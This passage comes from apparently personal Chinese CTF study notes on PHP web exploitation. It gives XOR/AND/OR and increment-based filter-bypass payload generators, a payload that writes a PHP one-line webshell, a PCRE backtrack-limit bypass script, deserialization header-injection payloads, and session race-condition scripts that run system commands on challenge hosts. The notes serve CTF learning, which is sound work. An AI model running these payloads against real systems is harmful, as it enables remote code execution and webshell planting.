			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

脚本2:xor_rce.py

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```

执行该脚本即可构建异或字符，如图



##### 与

用法和[异或](#####异或)一样，只是代码不同

脚本1:与绕过.php

```php
<?php
$preg = '/[0-9a-z]/i';
  
$myfile = fopen("and_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)&urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

脚本2:and_rce.py

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("and_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"%26\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```

##### 或

用法和[异或](#####异或)一样，只是代码不同

脚本1:或绕过.php

```php
<?php
$preg = '/[0-9]|[a-z]/i';

$myfile = fopen("or_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

脚本2:or_rce.py

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
           # elif t[0].lower()==i:
           #     s1+=t[2:5]
           #     s2+=t[6:9]
           #     break
       f.close()
   output="('"+s1+"'|'"+s2+"')"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```


##### 自增漏洞

- 暂时没学会这种方法的原理，不要深究

- PHP题目可能会涉及到自增（++）操作，这可能会利用PHP的类型松散和类型转换的特性来创建漏洞。

  这种漏洞通常出现在以下几种情况：

  1. **PHP数组键名的自动类型转换**：在PHP中，如果你使用一个浮点数作为数组的键名，它将被自动转换为整数。例如，`$array[1.5]`将被转换为`$array[1]`。这可能会被用来绕过某些安全检查，或者产生预期之外的效果。

  2. **PHP的"++"操作符在非数字字符串上的行为**：在PHP中，"++"操作符可以用于字符串。如果字符串的开头是一个或多个数字字符，那么这些数字将被解析并增加一，然后剩下的字符串将被忽略。例如，`$str = "123abc"; $str++;`之后，`$str`的值将会是"124"。如果字符串的开头不是数字，那么"++"操作符将不会有任何效果。这种行为可能会被用来绕过某些预期的输入检查。

  3. **PHP的"++"操作符在溢出时的行为**：在PHP中，如果一个整数增加到了PHP_INT_MAX，再增加一将会让它变成一个浮点数。这可能会被用来绕过某些整数范围的检查。

  以上这些情况都可能在CTF比赛中被用来设计题目。解决这类问题需要对PHP语言的特性有深入的理解。

###### 通用方法

```
$_=[];$_=$_.'';$_=$_[';'=='$'];$_++;$_++;$_++;$_++;$__=$_;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___=$_;$_++;$_++;$____=$_;$_++;$_____=$_;$_++;$_++;$_++;$______=$_;$_______=$_;$________=$_;$_++;$_________=$_;$__________=$_;$_++;$_++;$_++;$_++;$_++;$___________=$_;$____________=$______.$___________.$______.$_________.$__.$___;$_____________=$_____.$____.$______.$_________;
$_____________='_'.$_____________;
$_____________=$$_____________;
$____________($_____________[_]);

_=ls
```

在 url 传参时，记得把参数做 url 编码。这段的  `_=ls` ，就是给 POST 方法传入 `ls` 字符串，这里的 `ls` 也可以改成其他。（提前构造好的，所以无论题目有没有 POST 方法，都使用 POST 传入这段）

使用方法如图:



###### 访问 phpinfo

例题中的 GET 参数是 mess，这个例子是一个专用方法，只能访问 phpinfo()

**GET 方法用法**

```
mess=$_=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B;&_=phpinfo();
```

**POST 方法用法**

URL 参数:

```
mess=$_=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B;
```

POST data:

```
&_=phpinfo();
```

###### 构造一句话木马

- 该方法的自增原字符串和 [访问 phpinfo](######访问 phpinfo) 中的有区别，但效果一致，貌似该方法绕过的过滤更多

- 如果是 GET 方法，参考 [访问 phpinfo](######访问 phpinfo) 来修改

POST 方法的 URL 参数（wllm 是 GET 参数）

```
wllm=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%27%21%27%3D%3D%27%40%27%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D%27_%27%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___%28%24_%5B_%5D%29%3B
```

POST data

- 由于题目过滤了常用函数，这里用 `file_put_contents` 写入 `1.php` 构造一句话木马，`\` 表示转义符号（此处必须有 `\`）

```
_=file_put_contents("1.php","<?php eval(\$_POST['a']); ?>");
```

如果需要访问 `phpinfo()`，更改一下 POST data 即可

```
_=phpinfo();
```

##### PCRE 回溯 (绕过 preg_match 匹配上限)

- 当发现什么都被正则过滤了（连取反字符也被过滤了），可以考虑这种方法
- 条件：题目需要是 POST 传参 或 `$_REQUEST['letter']` 这种传参 (GET 方法有参数量限制，所以不行？)
- 不能滥用该方法，`preg_match` 达到上限被绕过了，`eval` 也可能被绕过，例题是因为题目的特殊性，将执行命令通过 JSON 单独分出来了

原理文章: https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html (简单说就是他匹配有一个上限，超出这个上限就可以绕过 preg_match 了,然后正常 preg_match 的上限就是 1000000，我们绕过了 preg_match 函数的匹配上限)

例题: https://www.ctfer.vip/problem/1897

例题代码：

```php
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

答案：

```python
import requests
 
url = "http://1.14.71.254:28052/"
# 这里必须使用特殊字符,@$之类没有被原题过滤的符号都是可以的
# 这里的 data 只是为了构造 json，因为例题中需要 json 格式
# "?><?=`nl /f*`;?>" 是内联执行
# 此处用 nl 的原因是原题中 checkdata() 过滤了 cat、tac (checkdata 是另一个函数，不是此处 "@"*1000000 绕过的正则表达式)
data='{"cmd":"?><?=`nl /f*`;?>","t":"' + "@"*1000000 + '"}' 
a = requests.post(url=url,data={'letter': data}).text
print(a)
```

原题中 PHP 代码接收一个 HTTP 请求参数 'letter'，将其解析为 JSON，然后提取出 'cmd' 字段的值，最后使用 PHP 的 `eval` 函数执行这个值作为 PHP 代码。

在正常的安全检查中，有一个正则表达式用于阻止用户提交某些特殊字符，这些特殊字符通常在命令注入或代码注入攻击中使用。但是，这个正则表达式有一个问题，它并没有阻止所有的特殊字符，比如 '@' 和 '$'。

Python的攻击代码利用了这个缺陷。它首先构造了一个 JSON 对象，其中 'cmd' 字段的值是一个 PHP 代码字符串 "?><?=`nl /f*`;?>"，这段代码会列出服务器上所有以 'f' 开头的文件的内容。然后，这个 JSON 对象被转换为一个字符串，其中包含一个大量 '@' 字符的 't' 字段。这个 't' 字段是为了绕过正则表达式的安全检查，因为 '@' 字符没有被正则表达式禁止。（简单说就是他匹配有一个上限，超出这个上限就可以绕过preg_match了,然后正常preg_match的上限就是1000000）

然后，这个字符串被发送到服务器，服务器的 PHP 代码将其解析为一个 JSON 对象，提取出 'cmd' 字段的值，然后执行这个值作为 PHP 代码。

```php
"?><?=`nl /f*`;?>"
```

是内联执行。在这里，它们被用来结束当前的 PHP 代码块并立即开始一个新的 PHP 代码块。这是因为在 eval 函数中执行的代码将被插入到当前的 PHP 代码块中，如果不使用这些标签，那么插入的代码可能会与当前的 PHP 代码混淆，导致语法错误。

##### 特殊情况: Headers 注入 (只允许使用函数注入，且函数内不能有参数)

- 注入完成之前学会使用 `var_dump` 来调试。活用 `var_dump` 、`next`、`current`

例题

- 这个正则表达式只允许使用函数，且函数内不能有参数

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class Test
{
    public $value;
    public function __destruct(){
        $this->backdoor();
    }
    public function backdoor(){
        if("yu22x"===preg_replace('/;+/',"yu22x",preg_replace("/[A-Za-z_]+\(+|\)/","",$this->value))){
           eval($this->value."yu22x");
       }
    }

}
unserialize($_GET['pop']);
```

答案

###### 方法一

- 从方法二开始只写思路

```php
<?php
    class Test
    {
        public $value;

    }
    $a = new Test();
    $a->value='system(current(getallheaders()));__halt_compiler();';
    echo serialize($a);
?>
```

`system(current(getallheaders()))` 这段的意思是用 system() 执行 HTTP Headers 中的第一个参数的值。(这里只能使用 burp 设置 HTTP Headers，因为要保证该 header 在 HTTP Headers 的第一个位置) 。[如果 `current` 不行，可以试试 `next` (当时遇到的题目环境有问题，用 next 就获取到了，重点在于要多使用 `var_dump` 打印当前变量)]

`__halt_compiler()` :这个函数会立即停止编译器的执行。这是为了防止服务器执行我们不希望执行的代码，例如 "yu22x"，因为在 `backdoor` 函数中，我们的代码后面会被添加上 "yu22x"。

如图:



此处的 `x` (键名)无所谓，可以是任意值。

###### 方法二

- 从方法二开始只写思路

```
?a=system(next(current(get_defined_vars())));&b=ls
```

利用 PHP 读取 GET 方法中所传参数，通过控制参数来注入

#### 执行系统命令

##### system('ls');

- 由于 eval(system('ls');); 中执行的是一段 PHP 代码，所以最后要加分号

再提供一种思路，除了用 system 外，还可以直接 show_source('flag.php')

如果 system('cat flag.txt'); 不成功，可以尝试如 system('cat f*.txt');。（或者可以尝试直接在浏览器访问这个文件）

#### 其他漏洞

##### include() 漏洞

`include('source.php?/../../../../../ffffllllaaaagggg')` 如果 source.php? 这个目录并不存在，include 函数就会取执行后面的，跳转到上层目录

##### 超级全局变量(输出所有全局变量的值)

```
http://xxx/?p=GLOBALS
```

##### %00截断 (get_headers() 漏洞)

在低于7.2.29的PHP版本7.2.x，低于7.3.16的7.3.x和低于7.4.4的7.4.x中，将 `get_headers()` 与用户提供的URL一起使用时，如果URL包含零（\ 0）字符，则URL将被静默地截断。这可能会导致某些软件对 `get_headers()` 的目标做出错误的假设，并可能将某些信息发送到错误的服务器。

例如原地址 `http://node4.anna.nssctf.cn:28559/?url=http://www.ctfhub.com` 会被  `http://x/?url=http://127.0.0.1%00.ctfhub.com`  截断，而显示 `http://127.0.0.1` 的内容。

##### strcmp

- 不支持数组，遇到数组会直接返回0

```
?id[]=1
```

##### Session 注入

可以通过 session 注入木马 (如 `<?php system('ls'); ?>`)，然后访问 `/tmp/sess_{sessid}` 这个文件即可

##### Session 条件竞争

利用点：

1.题目可以访问 `phpinfo()`

2.phpinfo 中可以看到 `session.upload_progress` 开启，以便上传自定义的 session 文件

3.需要能访问到 session 文件 `/tmp/sess_{sessid}` (可以通过 `include(file)` 来访问这个文件，示例代码的题目场景正是如此)

然后尝试用session文件包含，一般利用GET传参将我们构造好的恶意代码传入session中的，但没有 GET 传参还能往 session 中写入代码吗？当然可以，php 5.4后添加了 session.upload_progress 功能，这个功能开启意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中，利用这个特性可以将恶意语句写入session文件。

综上所述，

目标环境开启了session.upload_progress.enable选项
发送一个文件上传请求，其中包含一个文件表单和一个名字是 PHP_SESSION_UPLOAD_PROGRESS 的字段
请求的Cookie中包含Session ID
注意的是，如果我们只上传一个文件，这里也是不会遗留下Session文件的，所以表单里必须有两个以上的文件上传。

网上大佬也给出了脚本实现，这里就不重新造轮子了，改写一下直接用：

下面的代码跑通后，需要修改 **地址** 和 **session.post 的请求参数**（根据具体题目和后续返回的 flag 文件名修改）即可

例题: https://www.ctfer.vip/problem/336

```python
import io

import requests
import threading  # 多线程

from cffi.backend_ctypes import xrange

sessid = '0'
target = 'http://1.14.71.254:28592/' # 需要修改这个地址
file = 'ph0ebus.txt'  # 上传文件名
f = io.BytesIO(b'a' * 1024 * 50)  # 文件内容，插入大量垃圾字符来使返回的时间更久，这样临时文件保存的时间更长


def write(session):
    while True:
        session.post(target, data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_GET["cmd"]);?>'},
                     files={'file': (file, f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post(
          	# 根据具体的题目修改 session.post 的请求参数，后续也要根据 ls 返回的内容修改 nssctfasdasdflag 字段
          	# 此处 mode 参数是该代码审计题中的内容，实际只需要关注怎么访问到 session 存储的文件，即这里的 file 参数（这道题中是 include(file)）
          	# 综上，此处只需要确保 /tmp/sess_{sessid}&cmd=system('cd /;ls;cat nssctfasdasdflag'); 被包含在 include() 中，或者可以直接通过 Web 访问这个文件(/tmp/sess_{sessid}) [简单讲，我们需要能访问到自己上传的 php session 文件]
            f"{target}?mode=foo&file=/tmp/sess_{sessid}&cmd=system('cd /;ls;cat nssctfasdasdflag');")
        if file in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+]retry")
            # print(resp.text)


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in xrange(1, 30):  # 每次调用返回其中的一个值，内存空间使用极少，因而性能非常好
            threading.Thread(target=write, args=(session,)).start()
            # target：在run方法中调用的可调用对象，即需要开启线程的可调用对象，比如函数或方法；args：在参数target中传入的可调用对象的参数元组，默认为空元组()
        for i in xrange(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```

该漏洞的原理解释：PHP的Session条件竞争是一种攻击技术，利用了PHP会话管理机制中的漏洞。这种攻击利用了多线程或多进程环境下的竞争条件，通过同时发送多个请求来创建或修改会话数据，以实现绕过访问控制或执行未授权操作的目的。

PHP的会话管理通常使用文件或数据库存储会话数据。当用户访问网站时，服务器会为其分配一个唯一的会话标识符（Session ID），并将会话数据与该标识符关联存储。在后续的请求中，服务器会根据会话标识符来检索和更新会话数据。

在条件竞争攻击中，攻击者利用了会话数据的存储和访问过程中的时间差异。攻击者发送多个并发请求，每个请求都试图创建或修改会话数据。由于多线程或多进程环境中的竞争条件，这些请求可能会同时到达服务器，并在同一时间段内处理。

攻击者的目标是通过竞争条件中的时间差异，使其中一个请求成功地修改了会话数据，而其他请求则未能成功。这样，攻击者可以绕过访问控制机制，例如通过修改会话中的权限或角色数据来提升其特权级别，或者执行其他未授权的操作。

为了防止Session条件竞争攻击，开发人员应该采取一些措施，例如：

1. 使用适当的并发控制机制，如互斥锁（Mutex）或原子操作，来保护会话数据的读写过程。
2. 为会话数据存储选择合适的解决方案，如使用数据库而不是文件存储会话数据。
3. 使用随机和复杂的会话标识符，增加攻击者猜测会话标识符的难度。
4. 定期更新会话标识符，以减少攻击者成功的可能性。
5. 对会话数据进行严格的输入验证和过滤，以防止注入攻击和其他安全漏洞。

请注意，具体的攻击技术和防护措施可能因PHP版本、配置和应用程序实现的不同而有所差异。在实际开发和部署中，建议参考PHP官方文档和安全最佳实践来保护会话数据的安全性。

**自己对上面解释的理解**：简单说，此处利用了 PHP Session 被开启上传的设置，让我们可以自己构造 Session 文件上传到服务端。PHP 检测 Session 的机制是定期轮询检测，我们利用的就是这个检测空档，通过增大我们上传的 session 文件的内容让文件上传时间更久（文件存活时间更久），确保我们自己上传的 session 不被立刻删除或清理。（如果只使用单线程，可能在网络 I/O 或其他等待时间文件就已经被删了）

###### 另一个通用脚本

- 只要是文件包含的题，几乎都可以用。只需要 改地址

```python
import requests
import threading
import sys
session=requests.session()
sess='yu22x'
url1="http://3ba96309-5cba-4cc2-bf84-0b916069b4f4.node4.buuoj.cn:81/secr3t.php"
url2='http://3ba96309-5cba-4cc2-bf84-0b916069b4f4.node4.buuoj.cn:81/secr3t.php?file=/tmp/sess_'+sess
# 修改这里的执行命令即可
data1={
    'PHP_SESSION_UPLOAD_PROGRESS':'11122223333<?php system("ls /");?>'
}

file={
    'file':'1'
}
cookies={
    'PHPSESSID': sess
}
def write():
    while True:
        r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
    while True:
        r = session.get(url2)
        if('11122223333' in r.text):
            print(r.text)

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30): 
            threading.Thread(target=write).start()
        for i in range(1,30):
            threading.Thread(target=read).start()
    event.set()
```


#### 弱类型(==判断) 

- '' (空字符串) 在 `==` 中会被识别为 `false`
- `file_get_contents('a')` 像这样找不到文件时，会返回 `false`

**比较符**

- ===比较两个变量的值和类型；==比较两个变量的值，不比较数据类型。
- 在php中,如果bool和"任何其他类型"比较,"任何其他类型"会转换为bool。
- 看到类似 if(intval($num)) 要联想到弱类型，通过数组绕过。（数组同时可以绕过正则表达式）
- 447.0 和 447 用 === 比较的时候不相等
##### MD5 绕过
举例（以下几个字符串可绕过弱类型 md5）
```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a

原理：
在 PHP 中，'0e' 开头的字符串会被当作科学计数法来处理，因此当两个不同的字符串的 md5 哈希值以 '0e' 开头并且后面都是数字时，这两个哈希值在 PHP 中会被当作相等。
在这个例子中，我们需要找到两个字符串，一个只包含字母，一个只包含数字，它们的 md5 哈希值相等。
这样的字符串对已经被找到了，比如 '240610708' 和 'QNKCDZO'。这两个字符串的 md5 哈希值都是 '0e462097431906509019562988736854'。
```
如果前一种方法不行，利用 PHP 的 md5() 无法处理数组的特性绕过。(sha1 也无法处理数组类型，也适用此方法)
```
http://xxx/?v1[]=1&v2[]=2
```

###### 绕过 if ($md5==md5($md5))

